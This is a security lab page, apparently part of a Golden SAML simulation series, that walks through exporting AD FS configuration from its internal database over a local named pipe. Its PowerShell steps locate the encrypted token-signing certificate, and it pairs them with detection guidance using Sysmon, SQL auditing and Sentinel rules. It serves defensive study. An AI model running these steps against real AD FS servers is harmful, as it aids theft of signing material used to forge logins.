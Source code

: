 # Export AD FS Configuration via a Local Named Pipe

Locally, the AD FS WID does not have its own management user interface (UI), but one could connect to it via a specific `named pipe`.
Depending on the WID version, one could use the following named pipes to connect to the AD FS database and query its configuration settings:

* **WID 2008**: `\\.\pipe\MSSQL$MICROSOFT##SSEE\sql\query`
* **WID 2012+**: `\\.\pipe\MICROSOFT##WID\tsql\query`

![](../../../../images/labs/GoldenSAML/exportADFSConfiguration/2021-06-01_export_adfs_configuration_named_pipe.jpg)

## Table of Contents

* [Preconditions](#preconditions)
* [Simulation Steps](#simulation-steps)
* [Detection](#detection)
* [Output](#output)
* [References](#references)

## Preconditions

* Integrity level: medium
* Authorization:
    * Resource: AD FS Database 
    * Identity:
        * AD FS Service Account
        * Local Administrator
* AD FS Server
    * Services:
        * Active Directory Federation Services (ADFSSRV)

## Simulation Steps

### Get Database Connection String via WMI Class

The named pipe information can be obtained directly from the `ConfigurationDatabaseConnectionString` property of the `SecurityTokenService` class from the WMI `ADFS namespace`.

1.  Connect to the AD FS server via the [Azure Bastion service](../../../../environments/_helper-docs/connectAzVmAzBastion.md) as the AD FS service account.
2.  Open PowerShell and run the following commands:

```PowerShell
$ADFS = Get-WmiObject -Namespace root/ADFS -Class SecurityTokenService
$conn = $ADFS.ConfigurationDatabaseConnectionString
$conn
```

![](../../../../images/labs/goldemsaml/exportADFSTokenSigningCertificate/2021-05-19_02_get_database_string_wmi_class.png)

### Connect to the Database and Read Configuration

3. Use the connection string to connect to the AD FS database (WID) and run a SQL `SELECT` statement to export its configuration settings from the `IdentityServerPolicy.ServiceSettings` table.

```PowerShell
$SQLclient = new-object System.Data.SqlClient.SqlConnection -ArgumentList $conn
$SQLclient.Open()
$SQLcmd = $SQLclient.CreateCommand()
$SQLcmd.CommandText = "SELECT ServiceSettingsData from IdentityServerPolicy.ServiceSettings"
$SQLreader = $SQLcmd.ExecuteReader()
$SQLreader.Read() | Out-Null
$settings=$SQLreader.GetTextReader(0).ReadToEnd()
$SQLreader.Dispose()
$settings
```

![](../../../../images/labs/goldemsaml/exportADFSTokenSigningCertificate/2021-05-19_03_get_database_configuration.png)

You can also parse it as an XML object

```PowerShell
[xml]$settingsXML = $settings
$settingsXML
```

From here, you can get to the encrypted token signing certificate

```PowerShell
$settingsXMl.ServiceSettingsData.SecurityTokenService.AdditionalSigningTokens.CertificateReference
```

## Detection

### Detect Named Pipe Connection

The connection to the AD FS database occurs via the `\\.\pipe\microsoft##wid\tsql\query` named pipe, and we could monitor for the connection to it with `Sysmon Event ID 18 (Pipe Connected)`.

![](../../../../images/labs/goldemsaml/exportADFSTokenSigningCertificate/2021-05-19_04_event_sample.png)

#### Azure Sentinel Detection Rules

* [AD FS Database Named Pipe Connection Rule](https://github.com/Azure/Azure-Sentinel/blob/master/Detections/SecurityEvent/ADFSDBNamedPipeConnection.yaml)

### Detect AD FS SQL Statement to Export Service Settings

If we want to monitor for anyone interacting with the WID database via SQL statements, we would need to [create a server audit and database audit specification](https://docs.microsoft.com/en-us/sql/relational-databases/security/auditing/create-a-server-audit-and-database-audit-specification?view=sql-server-ver15). We can use the [Microsot SQL Server PowerShell module](https://docs.microsoft.com/en-us/powershell/module/sqlserver/?view=sqlserver-ps) to connect to the database and create audit rules.

**Create SQL Audit Rules**:

1.  On the AD FS server (ADFS01), open PowerShell as Administrator.
2.  Install the SqlServer PowerShell Module.

```PowerShell
Install-Module -Name SqlServer
Import-module SqlServer
```

3.  Create SQL Audit Rules.

```PowerShell
Invoke-SqlCmd -ServerInstance '\\.\pipe\microsoft##wid\tsql\query' -Query "
USE [master]
GO
CREATE SERVER AUDIT [ADFS_AUDIT_APPLICATION_LOG] TO APPLICATION_LOG WITH (QUEUE_DELAY = 1000, ON_FAILURE = CONTINUE)
GO
ALTER SERVER AUDIT [ADFS_AUDIT_APPLICATION_LOG] WITH (STATE = ON)
GO
USE [ADFSConfigurationV4]
GO
CREATE DATABASE AUDIT SPECIFICATION [ADFS_SETTINGS_ACCESS_AUDIT] FOR SERVER AUDIT [ADFS_AUDIT_APPLICATION_LOG] ADD (SELECT, UPDATE ON OBJECT::[IdentityServerPolicy].[ServiceSettings] BY [public])
GO
ALTER DATABASE AUDIT SPECIFICATION [ADFS_SETTINGS_ACCESS_AUDIT] WITH (STATE = ON)
GO
"
```

4.  Validate SQL Audit rule by running previous simulation steps either as the AD FS service account or local administrator:
* [Get Database Connection String via WMI Class](#get-database-connection-string-via-wmi-class)
* [Connect to database and run SQL statement to read configuration](#connect-to-database-and-run-sql-statement-to-read-configuration)

![](../../../../images/labs/goldemsaml/exportADFSTokenSigningCertificate/2021-05-19_04_adfs_sql_event_sample.png)

#### Azure Sentinel Hunting Queries

* [AD FS Database Local SQL Statements Rule](https://github.com/Azure/Azure-Sentinel/blob/master/Hunting%20Queries/SecurityEvent/ADFSDBLocalSqlStatements.yaml)

## Output

* AD FS Configuration Settings

## References

* [Exporting ADFS certificates revisited: Tactics, Techniques and Procedures (o365blog.com)](https://o365blog.com/post/adfs/)
* [The Role of the AD FS Configuration Database | Microsoft Docs](https://docs.microsoft.com/en-us/windows-server/identity/ad-fs/technical-reference/the-role-of-the-ad-fs-configuration-database)
* [Create a server audit and database audit specification](https://docs.microsoft.com/en-us/sql/relational-databases/security/auditing/create-a-server-audit-and-database-audit-specification?view=sql-server-ver15)
* [SQL Server Audit Action Groups and Actions](https://docs.microsoft.com/en-us/sql/relational-databases/security/auditing/sql-server-audit-action-groups-and-actions?view=sql-server-ver15)